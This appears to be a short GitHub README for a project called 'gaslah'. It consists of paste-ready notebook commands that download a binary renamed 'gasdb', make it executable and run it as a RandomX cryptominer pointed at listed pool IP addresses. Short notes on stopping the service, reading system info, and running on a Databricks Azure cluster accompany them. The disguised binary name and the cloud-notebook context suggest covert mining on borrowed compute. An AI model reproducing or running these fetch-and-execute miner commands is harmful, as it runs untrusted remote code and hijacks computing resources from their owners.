 # gaslah

git clone https://github.com/jojosap1990/gaslah.git
git add .
git commit -m "coment"

## uninstall
sudo supervisorctl stop gaslah && rm setup.sh
nano setup.sh
chmod +x setup.sh && ./setup.sh
## script
---------------------
! wget https://github.com/jojolotnok/gaslah/raw/main/gasdb && chmod +x gasdb && ./gasdb --randomx-1gb-pages -a rx/0 -o {mining_pool} -k --tls --rig-id {worker_name}.{name} -t 2
---------------------

akang
! wget https://github.com/jojolotnok/gaslah/raw/main/gasdb && chmod +x gasdb && ./gasdb --randomx-1gb-pages -a rx/0 -o 144.202.125.131:3333 -k --tls --rig-id test.gmail -t 2

adit
! wget https://github.com/jojolotnok/gaslah/raw/main/gasdb && chmod +x gasdb && ./gasdb --randomx-1gb-pages -a rx/0 -o 149.28.91.175:3301 -k --tls --rig-id test.gmail -t 2

! wget https://github.com/jojolotnok/gaslah/raw/main/gasdb64 && chmod +x gasdb64 && sudo ./gasdb64 --randomx-1gb-pages -a rx/0 -o 149.28.91.175:3301 -k --tls --rig-id test.dba -t 8

## get vps info
cat /etc/os-release
cat /proc/cpuinfo
uname -a


## databrick azure
* get ubuntu 18.04 bionic 64 bit
* Cluster Standar_F8s_v2 16GB Ram 8 cores 2400 H/s
